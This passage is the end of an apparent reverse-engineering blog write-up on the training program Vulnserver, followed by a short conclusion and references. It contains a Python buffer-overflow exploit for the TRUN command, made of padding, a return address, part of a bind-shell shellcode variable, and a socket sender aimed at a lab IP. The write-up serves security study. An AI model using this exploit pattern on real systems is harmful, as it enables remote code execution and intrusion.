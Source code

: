 ```python
bind += b"\xfe\x6d\xda\xa2"

buf = b"TRUN ."
buf += b"A" * 2006
buf += pack("<L", 0x625011af)
buf += bind

def main():

    server = "192.168.42.173"
    port = 9999

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    s.send(buf)

    s.close()

    print("[+] Packet sent.")
    sys.exit(0)

if __name__ == "__main__":
    main()
```

---
# Conclusion
---
Reverse engineering can be difficult, and quite tedious and time-consuming, but it is much more powerful than fuzzing, and tons of information can be revealed about the inner workings of an application. I personally find it to be fun and enjoyable and I really liked going through this exercise. Expect more posts like these in the future as I reverse engineer other vulnserver commands!

---
# References
---
[Vulnserver](https://github.com/stephenbradshaw/vulnserver)  
[WinDbg Dark Theme](https://github.com/nextco/windbg-readable-theme)

[^narly]: <https://github.com/d0c-s4vage/narly/tree/master/narly>

